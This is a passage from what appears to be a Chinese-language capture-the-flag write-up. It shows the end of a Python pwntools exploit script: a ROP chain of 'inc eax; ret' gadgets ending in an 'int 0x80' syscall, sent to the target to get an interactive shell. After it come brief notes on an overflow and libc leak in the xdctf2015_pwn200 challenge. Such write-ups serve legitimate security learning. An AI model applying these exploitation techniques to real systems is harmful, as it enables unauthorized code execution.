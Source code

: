 ```python
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x08049421) # int 0x80

payload = padding+p
io.sendlineafter(b'What do you plan to do?\n',payload)
io.interactive()
```

# xdctf2015_pwn200

- `32`位泄露`了ibc`

 ![image-20240116183210088](../assets/img/old_imgs/image-20240116183210088.png)

![image-20240116183224238](../assets/img/old_imgs/image-20240116183224238.png)

1. `main`函数中输入
2. `vuln`函数中存在溢出漏洞
